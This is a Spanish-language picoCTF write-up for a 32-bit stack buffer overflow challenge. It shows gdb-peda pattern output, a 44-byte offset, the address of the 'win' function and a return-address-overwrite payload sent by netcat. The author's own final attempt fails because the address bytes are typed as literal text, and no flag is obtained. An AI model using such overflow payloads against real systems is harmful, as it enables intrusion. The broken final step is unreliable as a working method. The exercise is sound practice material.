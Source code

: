 # Buffer overflow 1


## Descripcion
Control the return addressNow we're cooking! You can overflow the buffer and return to the flag function in the [program](https://artifacts.picoctf.net/c/186/vuln).You can view source [here](https://artifacts.picoctf.net/c/186/vuln.c). And connect with it using `nc saturn.picoctf.net 50024`
## Pistas
Make sure you consider big Endian vs small Endian.
Changing the address of the return pointer can call different functions.

## Solucion
descargamos gbd peda de https://github.com/longld/peda
usamos 
pattern 100 para generar 100 caracteres y los pasamos en la ejecucion 
nos da el resultado
```
Warning: 'set logging on', an alias for the command 'set logging enabled', is deprecated.
Use 'set logging enabled on'.

[----------------------------------registers-----------------------------------]
EAX: 0x41 ('A')
EBX: 0x61414145 ('EAAa')
ECX: 0x0 
EDX: 0xf7fc2540 (0xf7fc2540)
ESI: 0x8049350 (<__libc_csu_init>:      endbr32)
EDI: 0xf7ffcb80 --> 0x0 
EBP: 0x41304141 ('AA0A')
ESP: 0xffffd020 ("bAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
EIP: 0x41414641 ('AFAA')
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41414641
[------------------------------------stack-------------------------------------]
0000| 0xffffd020 ("bAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0004| 0xffffd024 ("AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0008| 0xffffd028 ("AcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0012| 0xffffd02c ("2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0016| 0xffffd030 ("AAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0020| 0xffffd034 ("A3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0024| 0xffffd038 ("IAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0028| 0xffffd03c ("AA4AAJAAfAA5AAKAAgAA6AAL")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41414641 in ?? ()
gdb-peda$ 

```
buscamos el offset que coinsida con el numero 0x41414641 en este caso AFAA
ejecutamos pattern offset AFAA y nos devuelve 44

posteriormente desesamblamos la funcion win para obtener su retorno en este caso
```
gdb-peda$ disass win
Dump of assembler code for function win:
   0x080491f6 <+0>:     endbr32

```
con python y la libreria pwn ejecutamos 
p32(0x080491f6) y  nos da la direccion de memoria
\xf6\x91\x04\x08
asi que ejecutamos el netcat creando 44 caractteres mas la direccion de memoria la bandera
(AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf6\x91\x04\x08) y obtenemos la bandera

## Bandera
robert@DESKTOP-Q7059O3:/mnt/c/Windows/system32$ nc saturn.picoctf.net 58660
Please enter your string:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf6\x91\x04\x08
Okay, time to return... Fingers Crossed... Jumping to 0x3666785c
robert@DESKTOP-Q7059O3:/mnt/c/Windows/system32$

aqui  deberia imprimirla pero por alguna razon no lo hace :( ninguna solucion que se intento imprime la bandera incluyendo e video proporcionado
picoCTF{}
## Notas adicionales


## Referencias
